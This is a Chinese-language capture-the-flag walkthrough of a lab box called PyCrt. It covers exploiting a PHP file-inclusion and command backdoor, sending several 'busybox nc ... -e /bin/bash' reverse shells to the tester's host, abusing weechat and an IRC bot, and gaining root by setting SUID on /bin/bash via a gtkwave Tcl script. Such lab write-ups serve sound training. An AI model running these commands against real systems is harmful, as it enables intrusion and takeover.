## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/pycrt  
❯ nmap 192.168.55.36 -sV -A -p- 

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 f6:a3:b6:78:c4:62:af:44:bb:1a:a0:0c:08:6b:98:f7 (RSA)
|   256 bb:e8:a2:31:d4:05:a9:c9:31:ff:62:f6:32:84:21:9d (ECDSA)
|_  256 3b:ae:34:64:4f:a5:75:b9:4a:b9:81:f9:89:76:99:eb (ED25519)
80/tcp   open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.62 (Debian)
6667/tcp open  irc
| irc-info: 
|   users: 1
|   servers: 1
|   chans: 0
|   lusers: 1
|   lservers: 0
|   server: irc.local
|   version: InspIRCd-3. irc.local 
|   source ident: nmap
|   source host: 192.168.55.4
|_  error: Closing link: (nmap@192.168.55.4) [Client exited]
```

`80`端口没有可以利用的信息，只是一个静态页面

## Irssi

这里我使用的是`irssi`来进行`irc`连接，当然也可以使用`weechat`

- [2024年8个最佳Linux IRC客户端整理 - 神算ID - 博客园](https://www.cnblogs.com/idccoupon/p/18135556)

```
[(status)] /connect 192.168.55.36 6667
```



欢迎信息中提到了一个`ShadowSec`目录，并且能够访问

## Feroxbuster

```
[root@kali] /home/kali/pycrt  
❯ feroxbuster -u 'http://192.168.55.36/ShadowSec/' -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -x php,txt
                                                                                                                                                
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.55.36/ShadowSec/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, txt]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      278c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      185l      509w     6270c http://192.168.55.36/ShadowSec/
200      GET        1l        4w       21c http://192.168.55.36/ShadowSec/bydataset.php
[####################] - 9m   3555720/3555720 0s      found:2       errors:0      
[####################] - 9m   3555720/3555720 6573/s  http://192.168.55.36/ShadowSec/  
```

找到一个`bydataset.php`，并没有什么东西

```
[root@kali] /home/kali  
❯ curl http://192.168.55.36/ShadowSec/bydataset.php                                           
Nothing to see here.
```

## FFUF

```
[root@kali] /home/kali  
❯ ffuf -u 'http://192.168.55.36/ShadowSec/bydataset.php?FUZZ=../../.././../../etc/passwd' -w /usr/share/fuzzDicts/paramDict/AllParam.txt  -fs 21

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.55.36/ShadowSec/bydataset.php?FUZZ=../../.././../../etc/passwd
 :: Wordlist         : FUZZ: /usr/share/fuzzDicts/paramDict/AllParam.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 21
________________________________________________

file                    [Status: 200, Size: 1452, Words: 13, Lines: 28, Duration: 2ms]
:: Progress: [74332/74332] :: Job [1/1] :: 5555 req/sec :: Duration: [0:00:13] :: Errors: 0 ::
```

存在**文件包含漏洞**

```
[root@kali] /home/kali  
❯ curl "http://192.168.55.36/ShadowSec/bydataset.php?file=/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
pycrtlake:x:1000:1000:pycrtlake,,,:/home/pycrtlake:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
chatlake:x:1001:1001::/home/chatlake:/bin/sh
```

## Own www-data

查看一下`bydataset.php`的源码呢

```
[root@kali] /home/kali  
❯ curl "http://192.168.55.36/ShadowSec/bydataset.php?file=php://filter/convert.base64-encode/resource=bydataset.php" | base64 -d
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1736  100  1736    0     0   947k      0 --:--:-- --:--:-- --:--:-- 1695k
<?php

function decrypt($input) {
    $reversed = strrev($input);
    echo "Reversed: " . $reversed . "\n";

    $decoded = base64_decode($reversed);
    echo "Decoded: " . $decoded . "\n";

    if ($decoded === false) {
        echo "Base64 decoding failed.\n";
        return false;
    }

    if (strpos($decoded, 'cmd:') === 0) {
        return substr($decoded, 4);
    }

    return false;
}

if ($_SERVER['REQUEST_METHOD'] === 'GET' && isset($_GET['file'])) {
    $file = $_GET['file'];
    if (stripos($file, 'phpinfo') !== false) {
        exit('Access Denied');
    }
    $filterUrl = 'php://filter/convert.base64-encode/resource=' . $file;
    $data = @file_get_contents($filterUrl);
    if ($data === false) {
        exit('Failed to read file');
    }
    echo base64_decode($data);
    exit;
} elseif ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['auth']) && isset($_POST['payload'])) {
    $auth = $_POST['auth'];
    $payload = $_POST['payload'];

    if ($auth !== 'LetMeIn123!') {
        exit('Invalid Auth Token.');
    }

    $command = decrypt($payload);
    if ($command !== false) {
        $output = exec($command);
        echo "<pre>$output</pre>";
    } else {
        echo "Payload decode failed.\n";
    }
    exit;
} else {
    echo "Nothing to see here.";
}
?>
```

逻辑很简单，可以直接命令行请求

```
[root@kali] /home/kali  
❯ curl -X POST http://192.168.55.36/ShadowSec/bydataset.php \
  -d 'auth=LetMeIn123!' \
  -d "payload=$(echo -n 'cmd:id' | base64 | rev)"

Reversed: Y21kOmlk
Decoded: cmd:id
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)</pre>#  
```

获取反弹`shell`

```
[root@kali] /home/kali/Desktop  
❯ curl -X POST http://192.168.55.36/ShadowSec/bydataset.php \
  -d 'auth=LetMeIn123!' \
  -d "payload=$(echo -n 'cmd:busybox nc 192.168.55.4 4444 -e /bin/bash' | base64 | rev)"
```

## Own chatlake

查看`sudo -l`

```
www-data@PyCrt:/var/www/html/ShadowSec$ sudo -l
Matching Defaults entries for www-data on PyCrt:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on PyCrt:
    (chatlake) NOPASSWD: /usr/bin/weecha
```

直接运行，发现存在`exec`命令执行的选项

```
/exec id
```



```
/exec busybox nc 192.168.55.4 8888 -e /bin/bash
```



## Own pycrtlake

查看`sudo -l`

```
chatlake@PyCrt:~$ sudo -l
Matching Defaults entries for chatlake on PyCrt:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User chatlake may run the following commands on PyCrt:
    (ALL) NOPASSWD: /usr/bin/systemctl start irc_bot.service
```

没有写入权限，执行之后，回到`irssi`连接，查看频道会多出来几个

```
/list
```



进入到`#chan6`频道，过一会会有一个机器人信息



看来需要切换`ID`，之前在`/ShadowSec`前端页面中存在一个`ID`为：`ll104567`

```
/nick ll104567
```

在频道中发信息没有任何用，需要切到其他频道里面发信息，然后私聊`admin`会得到回显

```
/query admin   //私聊
/q         //退出私聊
```

这是我输入`id:)`的结果



这是我输入`123:)`的结果



看起来只能输入数字呢，经过尝试切换到`#chan1`才是有用的

这是输入`123:)`的结果，似乎是映射到了特殊字符上



经过验证，其中的逻辑就是`ASCII`码转换

这是`whoami`的执行结果



同样将`busybox`转码之后执行即可，但是这里两下就断了



拼手速吧，再弹一个`shell`



## Root

查看`sudo -l`

```
pycrtlake@PyCrt:/usr/local/bin$ sudo /usr/bin/gtkwave -f /root/root.txt 
Could not initialize GTK!  Is DISPLAY env var/xhost set?

Usage: /usr/bin/gtkwave [OPTION]... [DUMPFILE] [SAVEFILE] [RCFILE]

  -n, --nocli=DIRPATH        use file requester for dumpfile name
  -f, --dump=FILE            specify dumpfile name
  -F, --fastload             generate/use VCD recoder fastload files
  -o, --optimize             optimize VCD to FST
  -a, --save=FILE            specify savefile name
  -A, --autosavename         assume savefile is suffix modified dumpfile name
  -r, --rcfile=FILE          specify override .rcfile name
  -d, --defaultskip          if missing .rcfile, do not use useful defaults
  -D, --dualid=WHICH         specify multisession identifier
  -l, --logfile=FILE         specify simulation logfile name for time values
  -s, --start=TIME           specify start time for LXT2/VZT block skip
  -e, --end=TIME             specify end time for LXT2/VZT block skip
  -t, --stems=FILE           specify stems file for source code annotation
  -c, --cpu=NUMCPUS          specify number of CPUs for parallelizable ops
  -N, --nowm                 disable window manager for most windows
  -M, --nomenus              do not render menubar (for making applets)
  -S, --script=FILE          specify Tcl command script file for execution
  -T, --tcl_init=FILE        specify Tcl command script file to be loaded on startup
  -W, --wish                 enable Tcl command line on stdio
  -R, --repscript=FILE       specify timer-driven Tcl command script file
  -P, --repperiod=VALUE      specify repscript period in msec (default: 500)
  -X, --xid=XID              specify XID of window for GtkPlug to connect to
  -1, --rpcid=RPCID          specify RPCID of GConf session
  -2, --chdir=DIR            specify new current working directory
  -3, --restore              restore previous session
  -4, --rcvar                specify single rc variable values individually
  -5, --sstexclude           specify sst exclusion filter filename
  -I, --interactive          interactive VCD mode (filename is shared mem ID)
  -C, --comphier             use compressed hierarchy names (slower)
  -g, --giga                 use gigabyte mempacking when recoding (slower)
  -L, --legacy               use legacy VCD mode rather than the VCD recoder
  -v, --vcd                  use stdin as a VCD dumpfile
  -O, --output=FILE          specify filename for stdout/stderr redirect
  -z, --slider-zoom          enable horizontal slider stretch zoom
  -V, --version              display version banner then exit
  -h, --help                 display this help then exit
  -x, --exit                 exit after loading trace (for loader benchmarks)

VCD files and save files may be compressed with zip or gzip.
GHW files may be compressed with gzip or bzip2.
Other formats must remain uncompressed due to their non-linear access.
Note that DUMPFILE is optional if the --dump or --nocli options are specified.
SAVEFILE and RCFILE are always optional.

Report bugs to <bybell@rocketmail.com>.
```

当前环境无 X 显示支持，该命令仍可能失败，需要伪造一下`Xvfb`，当前环境有`Xvfb-run`

需要写入一个`-S`脚本

```
pycrtlake@PyCrt:~$ cat poc 
exec bash -c "chmod u+s /bin/bash"
```

然后通过`xvfb`运行即可

```
pycrtlake@PyCrt:~$ xvfb-run sudo /usr/bin/gtkwave -S ./poc 

GTKWave Analyzer v3.3.118 (w)1999-2023 BSI

GTKWAVE | Use the -h, --help command line flags to display help.

(gtkwave:801): dconf-WARNING **: 06:16:55.663: failed to commit changes to dconf: Failed to execute child process ?dbus-launch? (No such file or directory)
GTKWAVE | Executing Tcl script './poc'
```



## Summary

`User`: 连接`irc`服务器得到隐藏目录，`fuzz`一下参数可以进行文件包含，读出`php`源码。`chatlake`可以直接通过`weechat`的`exec`进行反弹。最后就是`pycrtlake`需要进入到频道里，通过`ascii`码进行命令执行。

`Root`: 参数存在`-S`引入脚本，直接写入恶意命令即可。
